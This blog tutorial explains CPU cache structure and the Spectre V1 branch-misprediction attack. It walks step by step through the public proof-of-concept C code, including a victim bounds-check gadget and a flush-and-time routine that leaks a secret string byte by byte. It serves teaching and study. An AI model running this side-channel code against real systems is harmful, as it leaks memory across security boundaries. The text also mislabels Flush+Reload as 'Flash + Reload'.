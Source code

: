Title: Spectre V1
Date: 2019-4-21 10:01
Modified: 2019-4-21 10:01
Category: tutorial
Tags: spectre, cache
Slug: spectre_v1
Authors: F3real
Summary: How spectre V1 works

There are multiple spectre variants, but we will take look only at POC of V1 and try to understand it. But first, lets take a look at how CPU cache works:

[TOC]

##CPU cache

CPUs usually have 3 cache levels (L1, L2 and L3). Accessing higher cache level takes longer (more latency).  There can also be different caches for memory and instructions for example: L1 data cache (d-cache) and L1 instruction cache (i-cache).
Data is transferred between memory and cache in blocks of fixed size, called `cache lines` or `cache blocks`. Cache line size is in power of 2 (usually between 16 and 128 bytes). `Cache set` is a 'row' in a cache containing multiple cache blocks depending on layout.

To map memory addresses to cache entry we split it in three different parts:

~~~text
          +---------------------------------------------------------+
          |       TAG        |      SET INDEX     |     OFFSET      |
          +---------------------------------------------------------+
~~~
Getting data from cache follows following algorithm:

1. Use the `set index` to identify which cache set the address should reside in.
2. For cache each block in the corresponding cache set, compare the `tag` associated with that block to the tag from the requested memory address. If there is a match, proceed to the next step. Otherwise, the data is not in the cache.
3. For the block where the data was found, look at valid bit. If it is 1, the data is in the cache and we have a `cache hit`, otherwise it is not. 

`Offset` part of the request address is used to select a portion of the matching cache line.
If we fail to find data in cache we have a `cache miss`. In this case, procedure is repeated  to  attempt  to  retrieve  the  data  from  the  next  cache levels, and finally external memory.

If cache block size is `B` (B being smallest addressable unit), then we need b bits for `offset` part of address:

![Formula for calculating offset size]({static}/images/2019_4_23_equation1.svg){: .img-fluid .centerimage}

If `S` is the number of sets in our cache, then the `set index` has s bits:

![Formula for calculating set index size]({static}/images/2019_4_23_equation2.svg){: .img-fluid .centerimage}

Remaining bits are used for `tag`
.
If each set contains k lines then we say that the cache is k-way associative.
`Direct mapped` cache has one line in each set (1-way associative).
`Fully-associative` cache has only one set, and thus don't use set bits.

If the requested address is not found in the cache, then it will be brought in from memory along with the data near it (to take advantage of spatial locality) and placed there. To determine which addresses will also be brought in, we find the starting and ending address of the range that will be brought in. The starting address can be found by “zeroing out” the block offset part of the address. For the ending address, we replace the block offset with all 1’s. Note that the size of this range will always be the size of a cache block. The data in that range will be brought in and placed in one of the blocks in the cache.
If no blocks are free, some of the old data will be evicted from cache to make space.

##Spectre V1

Spectre V1 is based on exploiting conditional branch misprediction.
Full spectre paper can be found [here](https://spectreattack.com/spectre.pdf).

In general spectre attacks use the fact that processor can speculatively   execute code that it shouldn't and even after results of executing it are reverted, side effects of execution are left behind which can be exploited to leak data.

Branch prediction helps processors increase performance, but also makes processors speculatively execute code. Processors use Branch Target Buffer (BTB) which keeps  a  mapping  from  addresses  of  recently  executed branch instructions  to  destination  addresses to improve prediction.

For V1 attacker first starts with training branch predictor so that it will make wrong prediction later on. After this training phase attacker makes processor access out of bound value and load data to cache based on it. Measuring time to access data we can check what was loaded in cache and leak it.

Let's look at POC:

First we have few defined global variables:

~~~c
unsigned int array1_size = 16;
uint8_t unused1[64];
uint8_t array1[160] = {1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16};
uint8_t unused2[64];
uint8_t array2[256 * 512]; /* 1 Mb */
const char * secret = "The Magic Words are Squeamish Ossifrage.";
~~~

Unused arrays serve as padding ensuring that data around them falls into different cache lines (L1 cache often has 64 byte lines). `Secret` array represents information we are trying to leak and `array1` represent memory attacker has access to (shared between attacker and target). Size of `array1` is not important.

~~~c
uint8_t temp = 0; /* Used so compiler won’t optimize out victim_function() */
void victim_function(size_t x) {
	if (x < array1_size) {
		temp &= array2[array1[x] * 512];
	}
}
~~~

Victim function accesses memory based on attacker provided `x`. In case that
branch predictor makes wrong prediction, process will start executing `if` even with out-of-bounds `x`. This will load `array2[array1[x] * 512]` in cache (in case of out-of-bounds `x`, value loaded in cache will depend on some secret byte `k`).

Attacker needs to make sure that `array1_size` and `array2` are uncached.
If `array1_size` is uncached, it will cause delay in evaluation of branch condition while value is being fetched from memory. This delay can be substantial so instead of waiting for results to be determined, processor will start executing code speculatively based on branch predictor (which is trained by attacker to assume that branch is taken). Reading `array2[array1[x] * 512]` also takes time (due to cache miss). While this is happening processor may evaluate branch prediction, realise it made mistake and rewind state, but value loaded from `array2` will remain in cache. Attacker needs to make sure `array2` was uncached so that he can deduce `k` based on what value was loaded in cache.

We use `512` as array stride, this way we access different cache lines.

Next, we have `readMemoryByte` function which tries to leverage `victim_function` and leak secret data.

~~~c
/* Report best guess in value[0] and runner-up in value[1] */
void readMemoryByte(size_t malicious_x, uint8_t value[2], int score[2]) {
	static int results[256];
	int tries, i, j, k, mix_i, junk = 0;
	size_t training_x, x;
	register uint64_t time1, time2;
	volatile uint8_t * addr;

    /* Initialize result table*/
	for (i = 0; i < 256; i++)
		results[i] = 0;
	for (tries = 999; tries > 0; tries--) {

		/* Flush array2[256*(0..255)] from cache */
		for (i = 0; i < 256; i++)
			_mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */

        /* 30 loops: 5 training runs (x=training_x) per attack run (x=malicious_x) */
		training_x = tries % array1_size;
		for (j = 29; j >= 0; j--) {
			_mm_clflush(&array1_size);
			for (volatile int z = 0; z < 100; z++) {} /* Delay (can also mfence) */

			/* Bit twiddling to set x=training_x if j%6!=0 or malicious_x if j%6==0 */
			/* Avoid jumps in case those tip off the branch predictor */
			x = ((j % 6) - 1) & ~0xFFFF; /* Set x=FFF.FF0000 if j%6==0, else x=0 */
			x = (x | (x >> 16)); /* Set x=-1 if j&6=0, else x=0 */
			x = training_x ^ (x & (malicious_x ^ training_x));

			/* Call the victim! */
			victim_function(x);

		}

		/* Time reads. Order is lightly mixed up to prevent stride prediction */
		for (i = 0; i < 256; i++) {
			mix_i = ((i * 167) + 13) & 255;
			addr = &array2[mix_i * 512];
			time1 = __rdtscp((unsigned int *)&junk); /* READ TIMER */
			junk = *addr; /* MEMORY ACCESS TO TIME */
			time2 = __rdtscp((unsigned int *)&junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
			if (time2 <= CACHE_HIT_THRESHOLD && mix_i != array1[tries % array1_size])
				results[mix_i]++; /* cache hit - add +1 to score for this value */
		}

		/* Locate highest & second-highest results results tallies in j/k */
		j = k = -1;
		for (i = 0; i < 256; i++) {
			if (j < 0 || results[i] >= results[j]) {
				k = j;
				j = i;
			}
			else if (k < 0 || results[i] >= results[k]) {
				k = i;
			}
		}
		if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
			break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
	}
	results[0] ^= junk; /* use junk so code above won’t get optimized out*/
	value[0] = (uint8_t)j;
	score[0] = results[j];
	value[1] = (uint8_t)k;
	score[1] = results[k];
}
~~~

Let's look at some parts in more depth:

We start setting up attack by clearing entire `array2` from cache. We use 256 as number of values since that's covers all possible byte values. 

> _mm_clflush - Invalidate and flush the cache line that contains p from all levels of the cache hierarchy.

~~~c
for (i = 0; i < 256; i++)
    _mm_clflush(&array2[i * 512]); /* intrinsic for clflush instruction */
~~~

After this we make call victim function 5 times with correct index (making branch predictor think it will be taken next time as well). After training part we call victim function with our `malicious_x` index. Before calls to victim we also flush `array1_size` which finishes setting up our attack.
We repeat this procedure few times to increase confidence in our guess.

After this we have timing part. We access `array2` elements, time the access and if it's below threshold we increase corresponding value in `results` array. Only exception is value that we used to train branch predictor, which we skip (`array1[tries % array1_size]`). We access elements in pseudo random order to avoid stride predictor. If access patterns follows stride, processor can detect it and prefetch values which would ruin our results.

For measurement we are using `__rdtscp` since it is pseudo-serializing (it waits until all previous instructions have executed and all previous loads are globally visible unlike `__rdtsc`) which makes it less likely to be executed out of order.

Rest of function is not that interesting, we select two best results and return them.

This POC uses Flash + Reload trick to leak sensitive information, but we can also use Evict + Reload combo. Evict + Reload uses cache contention, instead of flushing cache we replace the memory by loading something else instead.


Slightly modified POC source code can be found [here](https://github.com/F3real/ctf_solutions/tree/master/2019/Spectre%20V1).
If you are interested in more about Spectre you can take a look at Chandler Carruth [talk](https://www.youtube.com/watch?v=_f7O3IfIR2k) from CppCon 2018.

